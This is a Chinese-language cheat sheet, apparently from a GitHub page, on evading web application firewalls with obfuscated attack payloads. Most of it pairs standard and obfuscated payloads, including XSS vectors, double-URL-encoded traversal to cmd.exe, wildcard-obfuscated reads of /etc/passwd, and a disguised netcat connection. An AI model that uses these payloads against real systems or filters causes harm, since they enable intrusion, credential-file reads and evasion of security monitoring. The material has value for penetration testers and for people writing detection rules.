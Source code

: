 **5. 混合编码**

```
Sometimes, WAF rules often tend to filter out a specific type of encoding.This type of filters can be bypassed by mixed encoding payloads.Tabs and newlines further add to obfuscation.
```

**混淆**:

```
<A HREF="htt p://6 6.000146.0x7.147/">XSS</A>
```

**7. 双重 URL 编码**

```
这个需要服务端多次解析了url编码标准: http://victim/cgi/../../winnt/system32/cmd.exe?/c+dir+c:\混淆: http://victim/cgi/%252E%252E%252F%252E%252E%252Fwinnt/system32/cmd.exe?/c+dir+c:\标准: <script>alert()</script>混淆: %253Cscript%253Ealert()%253C%252Fscript%253E
```

**8. 通配符使用**

```
用于linux命令语句注入，通过shell通配符绕过标准: /bin/cat /etc/passwd混淆: /???/??t /???/??ss??Used chars: / ? t s标准: /bin/nc 127.0.0.1 1337混淆: /???/n? 2130706433 1337Used chars: / ? n [0-9]
```

**9. 动态 payload 生成**

```
标准: <script>alert()</script>混淆: <script>eval('al'+'er'+'t()')</script>标准: /bin/cat /etc/passwd混淆: /bi'n'''/c''at' /e'tc'/pa''ss'wdBash allows path concatenation for execution.标准: <iframe/onload='this["src"]="javascript:alert()"';>混淆: <iframe/onload='this["src"]="jav"+"as	cr"+"ipt:al"+"er"+"t()"';>
```

**9. 垃圾字符**

```
Normal payloads get filtered out easily.Adding some junk chars helps avoid detection (specific cases only).They often help in confusing regex based firewalls.标准: <script>alert()</script>混淆: <script>+-+-1-+-+alert(1)</script>标准: <BODY onload=alert()>混淆: <BODY onload!#$%&()*~+-_.,:;?@[/|\]^`=alert()>
```

> **NOTE:** 上述语句可能会破坏正则的匹配，达到绕过。

```
标准: <a href=javascript;alert()>ClickMeBypassed: <a aa aaa aaaa aaaaa aaaaaa aaaaaaa aaaaaaaa aaaaaaaaaa href=javascript:alert(1)>ClickMe
```

**10. 插入换行符**

```
部分waf可能会对换行符没有匹配标准: <iframe src=javascript:confirm(0)">混淆: <iframe src="%0Aj%0Aa%0Av%0Aa%0As%0Ac%0Ar%0Ai%0Ap%0At%0A%3Aconfirm(0)">
```

**11. 未定义变量**

```
bash 和 perl 执行脚本中加入未定义变量，干扰正则。
```
